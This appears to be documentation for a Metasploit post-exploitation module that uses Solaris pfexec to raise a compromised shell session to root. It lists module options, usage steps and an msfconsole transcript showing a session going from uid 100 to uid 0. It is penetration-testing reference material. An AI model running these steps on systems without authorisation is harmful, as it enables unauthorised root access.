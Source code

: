 ## Description

  This module attempts to upgrade a shell session to UID `0` using `pfexec`.


## Vulnerable Application

  *  https://docs.oracle.com/cd/E19253-01/816-4557/prbactm-1/index.html
  *  http://www.c0t0d0s0.org/archives/4844-Less-known-Solaris-features-pfexec.html
  *  http://solaris.wikia.com/wiki/Providing_root_privileges_with_pfexec


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use  post/solaris/escalate/pfexec`
  4. `set SESSION <SESSION>`
  5. `run`
  6. Your session should now have *root* privileges


## Options

  **PFEXEC_PATH**

  Path to pfexec (default: `/usr/bin/pfexec`)

  **SHELL_PATH**

  Path to shell (default: `/bin/sh`)


## Scenarios

```
  msf5 > use post/solaris/escalate/pfexec 
  msf5 post(solaris/escalate/pfexec) > sessions -i 1 -c id
  [*] Running 'id' on shell session 1 (172.16.191.221)
  uid=100(user) gid=10(staff)

  msf5 post(solaris/escalate/pfexec) > set verbose true
  verbose => true
  msf5 post(solaris/escalate/pfexec) > set session 1
  session => 1
  msf5 post(solaris/escalate/pfexec) > run

  [*] Trying pfexec as `user' ...
  [*] uid=0(root) gid=0(root)
  [+] Success! Upgrading session ...
  [+] Success! root shell secured
  [*] Post module execution completed
  msf5 post(solaris/escalate/pfexec) > sessions -i 1 -c id
  [*] Running 'id' on shell session 1 (172.16.191.221)
  uid=0(root) gid=0(root)

  msf5 post(solaris/escalate/pfexec) > 
  ```

